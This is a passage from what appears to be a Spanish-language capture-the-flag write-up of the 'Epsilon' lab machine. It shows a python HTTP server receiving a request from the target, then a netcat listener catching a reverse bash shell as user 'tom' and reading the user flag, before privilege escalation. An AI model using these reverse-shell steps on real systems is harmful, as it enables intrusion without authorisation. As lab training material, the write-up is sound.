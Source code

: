 ![](/imagenes/Epsilon/epsilon_13.png)

Si enviamos la petición y vemos nuestro servidor de python:
```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.134 - - [04/Mar/2023 23:22:08] "GET / HTTP/1.1" 200 -
```

Vemos una petición, si vamos a nuestro listener:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.134] 57430
bash: cannot set terminal process group (948): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ whoami
whoami
tom
```

Hemos ganado acceso a la máquina, vamos a buscar la flag de usuario:

```
tom@epsilon:~$ cat user.txt
cat user.txt
68dbffa66652ccd6a97
```

¡Bien!, tenemos la flag, ahora debemos escalar privilegios.
